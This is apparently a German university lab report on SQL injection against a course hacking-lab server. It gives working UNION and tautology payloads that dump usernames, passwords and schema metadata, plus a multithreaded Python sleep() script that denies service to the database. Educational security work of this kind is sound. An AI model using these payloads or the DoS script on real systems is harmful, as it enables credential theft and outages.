 # UE 2 - SQL Injection - Florian Czeczil (if19b001), Peter Öttl (if19b146)

## Aufgabe 1: ID, firstname und lastname für alle einträge in der Tabelle

Input in die Textbox: `1 or true #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true # and protected = 0
```

## Aufgabe 2: username und Password für alle User

Input in die Textbox: `1 or true union select username, password, null from users #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select username, password, null from users # and protected = 0
```

## Aufgabe 3: svnr, protected, license, salery, hobbies für alle user

Input in die Textbox: `1 or true union select concat('username: ', username, ', svn: ', svnr), concat('license: ', license, ', salery: ', salery), concat('hobbies: ', hobbies, ', protected: ', protected) from users #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select concat('username: ', username, ', svn: ', svnr), concat('license: ', license, ', salery: ', salery), concat('hobbies: ', hobbies, ', protected: ', protected) from users # and protected = 0
```

## Aufgabe 4: Datenbankversion und angemeldeter benutzer

**Verdacht**: Aufgrund des Vorherigen Beispiels weiß ich, dass die Datenbank keine Oracle Datenbank sein kann, da '||' als concat operator nicht funktioniert hat. Außerdem konnte ich '+' für die concatenation zwar verwenden, wenn aber Zahlen im Spiel waren stimmte das ergebnis nicht. Daraus lässt sich schließen das auf dem Server eine MySQL Datenbank läuft. In MySQL kann man die gewünschten Daten wie folgt extrahieren:

Input in die Textbox: `1 or true union select version(), user(), null #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select version(), user(), null # and protected = 0
```

Aufgrund dessen, das die Funktionen version() und user() funktionieren, kann ich mir jetzt sicher sein, dass eine MySQL Datenbank verwendet wird.
Außerdem kann man am String 'labUser@localhost' sehen, dass der Webserver und die Datenbank am selben rechner laufen.

## Aufgabe 5: Datentypen von allen parametern in der users table

Input in die Textbox: `1 or true union select data_type, null, null from information_schema.columns # `

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select data_type, null, null from information_schema.columns # and protected = 0
```

## Aufgabe 6: Dem User zur Verfügung stehende Datenbanken

Input in die Textbox: `1 or true union select schema_name, null, null from information_schema.schemata #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select schema_name, null, null from information_schema.schemata # and protected = 0
```

## Aufgabe 7: Dem User zur Verfügung stehende Tables

Input in die Textbox: `1 or true union select table_name, null, null from information_schema.tables #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select table_name, null, null from information_schema.tables # and protected = 0
```

## Aufgabe 8: Dem User zur Verfügung stehende Zugriffsrechte

Input in die Textbox: `1 or true union select grantee, privilege_type, concat('grantable: ', is_grantable) from information_schema.user_privileges #`

Resultierende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 or true union select grantee, privilege_type, concat('grantable: ', is_grantable) from information_schema.user_privileges # and protected = 0
```

## Aufgabe 9: Kleiner DoS Angriff auf die Datenbank

Prinzipiell kann bei einer Verwundbarkeit auf SQL-Injections die Funktion `sleep()` verwendet werden. Dadurch wartet die Datenbank für eine fixe Zeit. Wird dieser Sleep zusätzlich mit `OR` an die Query gehängt, wird er für jeden bestehenden Datensatz ausgeführt.

Mit folgendem Input wartet die Datenbank 10 sekunden: `1 and sleep(10) # `

Daraus resultiert folgende Query:

```sql
SELECT id, firstname, lastname FROM users where id = 1 and sleep(10) # and protected = 0
```

Man kann dies aber leicht noch weiter treiben; wenn man in die URL-Leiste des Browsers schaut, sieht man nämlich genau welche URL aus diesem Befehl resultiert:

```
http://haklab-n1.cs.technikum-wien.at/sql/index.php?userid=1+and+sleep%2810%29+%23+
```

Mit einem kurzen Python skript, das 500 Threads startet die alle einen sleep() von 10 Sekunden, angehängt mit 'OR' aufrufen kommt kurze Zeit nach dem Start des Skripts auch bei Eingabe eines gültigen Parameters folgender Output auf der Hacking-Lab Seite:

```
SELECT id, firstname, lastname FROM users where id = 1 and protected = 0Unable to connect to MySQL
```

Für diesen kompletten Denial of Service genügt folgendes kurzes python skript:

```python
import requests
from threading import Thread

url_to_dos="http://haklab-n1.cs.technikum-wien.at/sql/index.php?userid=1+or+sleep%2810%29+%23+"

def send_request(threadName):
    print(f"Thread: {threadName} requesting")
    r = requests.get(url_to_dos)
    print(f"Response: {r}")

for i in range (0, 500):
    thread = Thread(target=send_request, args=(f"Thread-{i}", ))
    thread.start()

```

Dadurch, das diese 500 Threads alle irgendwann eine Response bekommen, erholt sich die Datenbank sobald das Skript fertig ist. Würde man die for-Schleife allerdings gegen einen `while(true)` loop tauschen, könnte man die Datenbank so lange beschäftigen, wie man das Skript laufen hat.
